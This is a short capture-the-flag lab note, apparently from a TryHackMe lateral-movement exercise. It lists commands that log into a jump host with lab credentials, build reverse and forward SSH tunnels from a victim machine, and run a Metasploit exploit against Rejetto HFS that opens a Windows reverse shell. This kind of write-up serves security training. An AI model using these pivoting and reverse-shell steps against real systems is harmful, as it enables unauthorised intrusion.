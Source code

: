 **Kali**

```
xfreerdp +clipboard /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020
```

<figure><img src="../../.gitbook/assets/image (9) (4) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
useradd tunneluser
passwd tunneluser
```

**Victim**

```
ssh tunneluser@$KALI -R 8888:thmdc.za.tryhackme.com:80 -L *:1990:127.0.0.1:1990 -L *:1029:127.0.0.1:1029 -N
```

<figure><img src="../../.gitbook/assets/image (1) (2) (6) (2).png" alt=""><figcaption></figcaption></figure>

**Kali(Metasploit**

```
msfconsole
use rejetto_hfs_exec
set payload windows/shell_reverse_tcp

set lhost thmjmp2.za.tryhackme.com
set ReverseListenerBindAddress 127.0.0.1
set lport 1029
set srvhost 127.0.0.1
set srvport 1990

set rhosts 127.0.0.1
set rport 8888
exploit
```
